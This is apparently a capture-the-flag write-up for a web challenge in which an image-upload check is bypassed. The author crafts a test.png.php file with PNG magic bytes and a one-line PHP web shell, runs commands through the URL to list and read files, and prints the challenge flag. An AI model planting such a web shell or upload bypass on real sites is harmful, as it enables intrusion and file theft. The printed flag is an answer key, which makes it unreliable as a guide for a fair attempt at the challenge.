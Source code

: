 # Problem
I found a web app that processes images: PNG images only!

# Solution
Add `robots.txt` to the URL; you will see `instructions.txt` there, which suggests that the site checks for `.png` extensions and PNG magic bytes (`50 4E 47`). Let's build a PHP payload accordingly (you can use "Wappalyzer" to check the backend architecture).

You can use any editor (e.g., nano, mousepad); I am using gedit:
```bash
gedit test.png.php
```
Put this code inside to gain navigation access through the URL:
```php
PNG
<?php system($_GET['cmd']); ?>
```

Note: You might not see the file when opening the upload dialog. Make sure to change the file type filter to show all files.

After the file has been successfully uploaded, add `/uploads/test.png.php?cmd=ls` in url to list all the files in that directory.  
Move into the parent directory with `/uploads/test.png.php?cmd=ls ..`, where you will see a gibberish file (`GNTDOMBWGIZDE.txt`). This is our flag; let's extract it.

You can use either:
```
/uploads/test.png.php?cmd=cat ../GNTDOMBWGIZDE.txt
```
or
```
/uploads/test.png.php?cmd=cat ../*
```

Flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}`
